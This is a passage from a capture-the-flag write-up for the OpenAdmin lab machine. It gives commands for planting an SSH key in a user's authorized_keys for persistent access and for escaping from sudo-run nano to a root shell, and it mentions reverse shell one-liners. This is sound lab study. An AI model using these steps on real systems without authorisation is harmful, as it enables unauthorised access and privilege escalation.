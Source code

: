 Then, add our public key (`openadmin.pub`) into joanna's authorized_keys.

`$ echo 'ssh-rsa <SNIP> root@kali' >> authorized_keys`

We can now connect to the machine via SSH as joanna.

`ssh joanna@10.10.10.171 -i openadmin`

### Getting A Shell From Within Nano

Now, let's launch nano as root.

`sudo /bin/nano /opt/priv`

[To escape nano into shell](https://gtfobins.github.io/gtfobins/nano/):

* Then, press `^R` followed by `^X` to execute command within nano.
* Execute `reset; sh 1>&0 2>&0` to escape into a shell. 

You can also execute any reverse shell one liner.

![nano escape](images/openadmin/nanoescape.png)

# Thoughts

This is a straightforward box that reinforces a few basic techniques for Linux boxes.

